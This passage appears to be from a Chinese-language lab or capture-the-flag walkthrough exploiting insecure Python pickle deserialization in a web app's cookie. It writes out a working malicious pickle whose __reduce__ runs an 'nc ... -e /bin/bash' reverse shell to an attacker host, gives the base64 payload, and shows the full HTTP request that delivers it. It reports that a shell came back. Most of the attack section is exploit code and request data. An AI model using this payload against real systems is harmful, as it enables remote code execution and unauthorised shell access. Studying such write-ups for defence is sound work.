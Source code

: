 产生进行解码

```python
import base64
import pickle

s = "gASVCAAAAAAAAACMBHRlc3SULg=="

s = pickle.loads(base64.b64decode(s))

print(s)
# test
```

可以确定远程服务存在 Python Pickle 序列化相关操作，尝试利用

### 生成反序列化恶意载荷

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc 192.168.56.102 9999 -e /bin/bash",))
print(base64.b64encode(pickle.dumps(P())))
# gASVPwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCRuYyAxOTIuMTY4LjU2LjEwMiA5OTk5IC1lIC9iaW4vYmFzaCCUhZRSlC4=
```

将这个生成的恶意载荷投入浏览会话中，进行交互

```plaintext
POST /search HTTP/1.1
Host: 192.168.56.119:5003
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.119:5003
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.119:5003/search
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrftoken=dSQDeQ2PWUIMTRw1KjUQeaTIxe2ntAkmPqDcY27I3yYvnHunYadk9MPbt3tmqKSl; search_cookie="gASVPwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCRuYyAxOTIuMTY4LjU2LjEwMiA5OTk5IC1lIC9iaW4vYmFzaCCUhZRSlC4="
Connection: close

csrfmiddlewaretoken=8sIxi3DjITlwk9AQtXq37xpboAzzCPdeK0v62fIcPxBfOZycHOJx29lEkp0yzZLd&query=asasasa
```

成功得到回连的 shell
